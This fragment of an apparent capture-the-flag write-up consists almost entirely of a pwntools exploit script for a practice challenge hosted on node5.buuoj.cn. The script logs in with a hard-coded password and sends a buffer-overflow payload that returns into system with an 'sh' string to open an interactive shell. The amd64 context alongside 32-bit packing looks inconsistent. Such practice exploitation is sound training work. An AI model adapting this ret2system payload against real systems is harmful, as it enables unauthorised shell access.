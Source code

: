![alt text](image-18.png)
exp:
```python 
from pwn import *
from LibcSearcher import *
r=remote('node5.buuoj.cn',28995)
context(os = 'linux', arch = 'amd64', log_level = 'debug')
elf=ELF('./2')
r.recvuntil('password:')
r.sendline('administrator')
r.recvuntil('Exit\n:')
r.sendline(str(1))
main=0x08048722
system_adr=0x080484D0
sh_adr=0x080482ea
payload=b'a'*(0x48+4)+p32(system_adr)+p32(main)+p32(sh_adr)
r.sendline(payload)
#r.recvuntil('password:')
#r.sendline('administrator')
r.recvuntil('Exit\n:')
r.sendline(str(4))
r.interactive()
```